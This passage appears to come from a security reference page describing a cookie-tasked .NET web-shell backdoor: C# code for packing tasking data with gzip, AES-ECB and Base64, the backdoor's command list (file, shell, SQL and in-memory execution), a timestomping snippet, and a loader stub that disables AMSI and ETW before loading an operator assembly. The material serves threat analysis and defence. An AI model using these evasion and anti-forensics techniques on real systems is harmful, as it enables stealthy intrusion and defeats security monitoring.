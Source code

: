 Packing/crypto helpers (Gzip + AES‑ECB + Base64)
```csharp
using System.Security.Cryptography;

static byte[] AesEcb(byte[] data, byte[] key, bool encrypt){
    using(var aes = Aes.Create()){
        aes.Mode = CipherMode.ECB; aes.Padding = PaddingMode.PKCS7; aes.Key = key;
        ICryptoTransform t = encrypt ? aes.CreateEncryptor() : aes.CreateDecryptor();
        return t.TransformFinalBlock(data, 0, data.Length);
    }
}

static string Pack(object obj, byte[] key){
    // serialize → gzip → AES‑ECB → Base64
    byte[] raw = Serialize(obj);                    // your TLV/JSON/msgpack
    using var ms = new MemoryStream();
    using(var gz = new GZipStream(ms, CompressionLevel.Optimal, true)) gz.Write(raw, 0, raw.Length);
    byte[] enc = AesEcb(ms.ToArray(), key, true);
    return Convert.ToBase64String(enc);
}

static T Unpack<T>(string b64, byte[] key){
    byte[] enc = Convert.FromBase64String(b64);
    byte[] cmp = AesEcb(enc, key, false);
    using var gz = new GZipStream(new MemoryStream(cmp), CompressionMode.Decompress);
    using var outMs = new MemoryStream(); gz.CopyTo(outMs);
    return Deserialize<T>(outMs.ToArray());
}
```

Cookie/session flow and command surface
- Session bootstrap and tasking are carried via cookies to blend with normal web activity.
- Commands observed in the wild included: fileExist, listDir, createDir, renameDir, fileRead, deleteFile, createFile, changeLastModified; addshell, bypassPrecompiledApp, listShell, removeShell; executeSQLQuery, ExecuteNonQuery; and dynamic execution primitives code_self, code_pid, run_code for in‑memory .NET execution.

Timestomping utility
```csharp
File.SetCreationTime(path, ts); 
File.SetLastWriteTime(path, ts);
File.SetLastAccessTime(path, ts);
```

Inline AMSI/ETW disable before Assembly.Load (loader variant)
```csharp
// Patch amsi!AmsiScanBuffer to return E_INVALIDARG
// and ntdll!EtwEventWrite to a stub; then load operator assembly
DisableAmsi();
DisableEtw();
Assembly.Load(payloadBytes).EntryPoint.Invoke(null, new object[]{ new string[]{ /* args */ } });
```
See AMSI/ETW bypass techniques in: windows-hardening/av-bypass.md

